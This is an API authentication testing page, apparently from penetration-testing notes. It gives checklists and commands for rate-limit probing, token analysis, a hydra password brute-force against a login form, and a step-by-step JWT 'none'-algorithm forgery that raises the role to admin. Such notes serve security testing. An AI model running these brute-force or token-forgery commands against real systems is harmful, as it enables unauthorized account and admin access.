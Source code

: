 ```yaml
---
title: Authentication
description: Authentication is verifying the identity of the client that is trying to access an API endpoint
---
```


### Credential Testing
- [ ] Attempt multiple failed logins (10-20) with the same username
- [ ] Attempt logins with different usernames from the same IP
- [ ] Check for timing differences in responses
- [ ] Document the threshold at which rate limiting begins
- [ ] Check for sensitive data in URL parameters
- [ ] Test if credentials are transmitted in request body rather than URL
- [ ] Check if credentials are logged in server logs or client consoles

Example of a bash script to test rate limiting:
```bash
for i in {1..50}; do
  echo "Attempt $i"
  curl -X POST https://example.com/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"testuser","password":"wrongpassword123"}' \
    -w "Status: %{http_code}, Time: %{time_total}s\n" -o /dev/null -s
  sleep 1
done
```

#### Account lockout testing
- [ ] Attempt multiple failed logins to a test account
- [ ] Try to access the account after the lockout threshold
- [ ] Document the number of attempts before lockout
- [ ] Check if lockout is time-based or requires admin intervention
- [ ] Test if account lockout affects only the specific user or IP
- [ ] Check if lockout can be bypassed by using different authentication methods

### JWT
- Check if signature is verified
- Check if server accepts unassigned JWT
- Brute-force if weak signing key


## Exploit
**Token Analysis**
1. Find endpoint that returns token ![](../../../../public/images/API_autht_20250611%20_125804.png)
2. Send request to sequencer, set token location and start live capture. *Note: Also try select Base64-decode before analyzing* if the token is base64 ![](../../../../public/images/API_Auth_20250611%20_130624.png)
3. Look for **poor quality of randomness** and **Character-level analysis**.
4. Save tokens. 
```bash
head -n 100 tokens.txt
tail -n 10 tokens.txt | while read line; do echo "$line" | base64 -d; echo; done
```

Decode base64
```bash
echo -n 'YWRtaW4tMTA6MzY6MTctY3N2' | base64 -d 
```

**Bruteforce**
- Wordlist `~/Wordlist/SecLists/Usernames/Names/names.txt`
```bash
hydra -l admin -P passwords.txt example.com http-post-form "/api/login:username=^USER^&password=^PASS^:Invalid credentials"
```

**JWT Signature Bypass**
```bash
# Original JWT
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3NDExODA5Mzd9.8FYMxQ3L_LhjdZ0CXnLHJ9ZQN0rply6uBTHtJ_IcaS4

# Decode header
echo -n 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9' | base64 -d
# {"alg":"HS256","typ":"JWT"}

# Decode payload
echo -n 'eyJ1c2VyaWQiOiJ1c2VyIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3NDExODA5Mzd9' | base64 -d
# {"userid":"user","role":"user","iat":1741180937}

# Modify payload to escalate privileges
echo -n '{"userid":"user","role":"admin","iat":1741180937}' | base64 | tr -d '=' | tr '/+' '_-'
# eyJ1c2VyaWQiOiJ1c2VyIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzQxMTgwOTM3fQ

# Modify header to use 'none' algorithm
echo -n '{"alg":"none","typ":"JWT"}' | base64 | tr -d '=' | tr '/+' '_-'
# eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0

# Create modified JWT (without signature for 'none' algorithm)
modified_jwt="eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyaWQiOiJ1c2VyIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzQxMTgwOTM3fQ."

# Test with curl
curl -i https://example.com/api/admin -H "Authorization: Bearer $modified_jwt"
```